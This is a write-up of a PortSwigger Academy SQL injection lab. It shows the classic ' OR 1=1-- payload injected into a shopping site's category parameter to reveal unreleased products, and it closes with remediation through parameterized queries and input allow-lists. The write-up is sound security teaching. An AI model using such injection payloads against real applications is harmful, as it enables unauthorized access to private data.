



# Lab: SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

> **Platform:** PortSwigger Web Security Academy  
> **Module:** SQL Injection  
> **Lab:** SQL injection vulnerability in WHERE clause allowing retrieval of hidden data  
> **Lab Link:** https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-hidden-data/sql-injection/lab-retrieve-hidden-data  
> **Goal:** Perform a SQL injection attack that causes the application to display one or more unreleased products.

---

## 1. Lab Goal

The goal of this lab was to exploit a SQL injection vulnerability in the product category filter to bypass the backend query filter and retrieve hidden/unreleased products from the database.

---

## 2. Given Information

The lab gave the following information:

- The application contains a SQL injection vulnerability in the product category filter.
- When the user selects a category, the application carries out a SQL query like:
  ```sql
  SELECT * FROM products WHERE category = 'Gifts' AND released = 1
  ```

---

## 3. Vulnerability Summary

The application takes the user-supplied `category` parameter from the URL query string and concatenates it directly into a backend `SELECT` SQL query without sanitization or parameterization. By injecting a single quote (`'`) to break out of the string literal, followed by `OR 1=1--`, an attacker can force the `WHERE` condition to always evaluate to true and comment out the rest of the query (`AND released = 1`), displaying all products in the database.

---

## 4. Observation

I landed on a shopping site where product category selection options were displayed right in front of me.



When I selected a category (such as `Pets`), the following query was generated in the URL bar:

```text
https://0a2400310357d9ee809144c200cd00eb.web-security-academy.net/filter?category=Pets
```



This action caused the backend to execute the following SQL query:

```sql
SELECT * FROM products WHERE category = 'Pets' AND released = 1
```

---

## 5. Initial Testing & Exploiting the Vulnerability

To exploit this, I modified the `category` parameter directly in the URL bar to inject a boolean condition and comment out the remainder of the query:

```text
https://0a2400310357d9ee809144c200cd00eb.web-security-academy.net/filter?category=Pets'+OR+1=1--
```

This resulted in the following SQL query being executed in the backend:

```sql
SELECT * FROM products WHERE category = 'Pets' OR 1=1--' AND released = 1
```

Because `1=1` is always true and `--` comments out the `AND released = 1` restriction, the application returned and displayed all products (including unreleased ones), solving the lab.



---

## 6. Correct Testing Approach

1. Identify input parameters in the URL that directly filter database records (such as `?category=Pets`).
2. Test how the application handles single quotes (`'`) and SQL comment syntax (`--`).
3. Construct a payload (`' OR 1=1--`) that closes the existing string literal, introduces a universally true boolean condition, and comments out additional filtering logic (`AND released = 1`).

---

## 7. Exploitation Steps

1. Opened the shopping site and observed the available product categories.
2. Selected the `Pets` category and observed the URL change to `/filter?category=Pets`.
3. Modified the URL parameter in the browser address bar to `Pets'+OR+1=1--`.
4. Sent the request and observed that all products (including hidden/unreleased items) were displayed on the page, solving the lab.

---

## 8. Evidence

### Normal Request URL
```text
https://0a2400310357d9ee809144c200cd00eb.web-security-academy.net/filter?category=Pets
```

### Normal Backend SQL Query
```sql
SELECT * FROM products WHERE category = 'Pets' AND released = 1
```

### Exploit Request URL
```text
https://0a2400310357d9ee809144c200cd00eb.web-security-academy.net/filter?category=Pets'+OR+1=1--
```

### Injected Backend SQL Query
```sql
SELECT * FROM products WHERE category = 'Pets' OR 1=1--' AND released = 1
```

---

## 9. Why This Worked

This worked because the backend application directly concatenated the untrusted `category` query parameter into the SQL command string. 

- The injected `'` closed the `'Pets'` string literal early.
- `OR 1=1` made the `WHERE` clause return `TRUE` for every row in the `products` table, regardless of its category.
- `--` instructed the SQL parser to ignore the remainder of the query (`AND released = 1`), bypassing the filter that hides unreleased products.

---

## 10. Remediation / Fix

To prevent SQL injection vulnerabilities, the application should:

- **Use Parameterized Queries (Prepared Statements):** Ensure user input is treated strictly as a literal value rather than executable SQL syntax.
- **Input Validation:** Enforce an allow-list of valid product categories on the backend before querying the database.

---

## 11. Lessons Learned

- URL query parameters used to filter data on a page often interact directly with a `WHERE` clause in a backend `SELECT` statement.
- Using `' OR 1=1--` both bypasses specific column matching and neutralizes trailing conditions (like `AND released = 1`) in a single payload.

---

## 12. Final Summary

In this lab, I exploited a SQL injection vulnerability in the `WHERE` clause of a product category filter. By changing the URL parameter from `category=Pets` to `category=Pets'+OR+1=1--`, I altered the backend SQL query logic to evaluate to true for every record and commented out the `released = 1` check, displaying all hidden products and solving the lab.
